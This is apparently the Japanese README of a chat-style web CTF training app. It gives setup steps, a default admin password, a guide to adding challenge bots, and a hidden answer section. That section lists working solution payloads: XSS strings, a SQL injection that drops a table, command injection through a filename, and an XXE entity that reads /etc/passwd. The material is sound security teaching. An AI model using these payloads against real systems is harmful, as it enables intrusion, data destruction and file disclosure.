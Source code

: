 # chat-ctf (公開サーバでの利用はしないでください)
chatアプリケーション風WebCTFサイト。
内部ネットワーク内での利用を想定した、セキュリティ教材です。

## 依存
- docker-compose
- mkcert
- sqlite3

## 起動手順

```sh
$ git clone https://github.com/TakuKitamura/chat-ctf.git
$ cd chat-ctf
$ sudo docker compose up -d
$ vim src/.env.development # 適切なものを設定。
$ # IPは、サーバのIPアドレス
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ vim src/.env.production # 適切なものを設定
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ cd src
$ ./setup-db.sh # Admin/Adm1nAdm1n というテストアカウントも追加されます。
$ mkcert 192.168.1.x
$ cd ..
$ sudo docker compose exec app yarn install
$ sudo docker compose exec app yarn build && sudo docker compose exec app yarn start
$ # or
$ sudo docker compose exec app yarn dev
```
https://192.168.1.x/login でログインできます。

https://192.168.1.x/signup でアカウントを作成できます。

CSVファイルからのアカウント一括作成も可能です。

```sh
$ vim /tmp/user.csv # 一例
UserID,Password,IconURL
Test1,Maixuo7p,https://example.com/1.jpg
Test2,eoch2ieP,https://example.com/2.jpg
$ cd chat-ctf/src
$ ./add-users.sh -f /tmp/user.csv -i 192.168.1.x
```

### Adminアカウント専用機能
- Adminアカウント(`Admin/Adm1nAdm1n`)でログインし、適当なテキストボックスで`/reset-chat`と入力するとchatデータがDBから削除される。画面更新をすると、chat履歴が消えていることを確認できる。

---

<details>

<summary>問題の回答</summary>

### Echo Bot [XSS]

ブラウザのDeveloper ToolでUser Agentを下記のように変更。
```
"><img src=x onerror="alert()"><!--
```

そして、適当なメッセージを入力し送信する。

### アーティスト検索 Bot [SQL Injection]

下記のメッセージを入力し送信する。
```
search=santana
n='; DROP TABLE user; --
```

### グレースケール変換 Bot [OS Command Injection]

アップロードする画像のファイル名を例えば以下に変え、アップロードする。
```
example`sleep 3`.jpg
```

### FizzBuzz Bot [XSS]

https://192.168.1.x?q=%3Cimg%20src=%22x%22%20onerror=%22alert()%22%3E

というようなURLにアクセスした上で、下記メッセージを入力し送信する。
```
n=200
```

### Excel解析 Bot [XXE]

適当なGoogleスプレッドシートを作成し、Microsoft Excel形式でダウンロード。ファイル名をexample.xlsxとする。
以下のように細工したファイルを作成する。

```sh
$ mkdir tmp
$ mv example.xlsx tmp
$ cd tmp
$ unzip example.xlsx
$ ls
[Content_Types].xml  _rels  example.xlsx  xl
$ cat xl/sharedStrings.xml # 出力結果は例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>AAA</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ vim xl/sharedStrings.xml # 例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [ 
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>&xxe;</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ zip -r crafted.xlsx '[Content_Types].xml' _rels xl
  adding: [Content_Types].xml (deflated 71%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 40%)
  adding: xl/ (stored 0%)
  adding: xl/workbook.xml (deflated 58%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 64%)
  adding: xl/worksheets/_rels/ (stored 0%)
  adding: xl/worksheets/_rels/sheet1.xml.rels (deflated 40%)
  adding: xl/drawings/ (stored 0%)
  adding: xl/drawings/drawing1.xml (deflated 66%)
  adding: xl/styles.xml (deflated 61%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 78%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 66%)
  adding: xl/sharedStrings.xml (deflated 26%)
```

そして、crafted.xlsxをアップロードする。

</details>

# Bot問題追加ガイド

チャット形式CTFの各問題を `src/lib/bots/bot<number>.ts` の形式で実装しています。  
新しい問題を追加する際は、以下のルールに従ってください。

## 1. ファイル命名規則

- ファイル名は `bot1.ts`, `bot2.ts`, `bot3.ts` のように連番で命名します。
- 重複しない番号を使用してください。
- ファイル内のロジックで、問題に正解した場合は `gotFlag: true` を返すようにしてください。

## 2. Bot関数の構成

すべての Bot ファイルは、以下のように `default export` される `async` 関数を定義します。

```ts
import { BotHandlerArgs } from './types';
const escape = require('escape-html');

export default async function ({
  req,
  message,
  file
}: BotHandlerArgs) {
  return {
    gotFlag: false,
    html: escape("出力メッセージ")
  };
}
```

戻り値の構造：

```ts
{
  gotFlag: boolean, // 正解時 true、不正解時 false
  html: string      // 表示するHTML文字列（ユーザ由来の入力は、escape必須）
}
```

## 3. 入力とユーティリティ関数

### BotHandlerArgs

すべての Bot は以下の引数を受け取ります：

- `req: NextApiRequest` - HTTPリクエストオブジェクト
  - https://www.jsdocs.io/package/next#NextApiRequest
- `message: string` - ユーザが送信したメッセージ
- `file: File` - ファイル情報（ファイルがアップロードされていなければ、undefined）
  - https://www.jsdocs.io/package/@types/formidable#File

### validCheckEnv の使い方

クエリ形式の `message` をパース・バリデーションする際には、共通ユーティリティ `validCheckEnv()` を使ってください。

```ts
import { validCheckEnv } from 'lib/ctf';

const result = validCheckEnv(message, ['key1', 'key2']);

if (!result.valid) {
  return {
    gotFlag: false,
    html: '<h3>Invalid Format</h3>'
  };
}

const key1 = result.params.key1;
const key2 = result.params.key2;
```

この関数は以下の形式のメッセージをパースします：

```
key1=value1&key2=value2
```

指定されたキーがすべて存在するかをチェックし、不正な形式であれば `valid: false` を返します。

## 4. Ctfテーブルへの登録

Bot を追加したら、対応するエントリを `Ctf` テーブルに追加してください。

### 対象ファイル

- `src/migrations/003-ctf.sql` を編集します。

### レコード追加形式

```sql
INSERT INTO Ctf (id, title, template, attachmentButton)
VALUES (<bot番号>, '<問題タイトル>', '<初期入力テンプレート>', <true|false>);
```

- `id`: `bot<number>.ts` の `<number>` と一致させること。
- `title`: チャットUIに表示される問題名。
- `template`: 入力フォームに事前表示される文字列（HTML可）。
- `attachmentButton`: ファイルアップロード用ボタンを表示するかどうか（`true` または `false`）。

### 反映方法

編集後は必ず、以下のスクリプトを実行してDBを再セットアップしてください：

```bash
$ cd src
$ ./setup-db.sh
```

これにより、CTF UI に新しい Bot が表示されます。
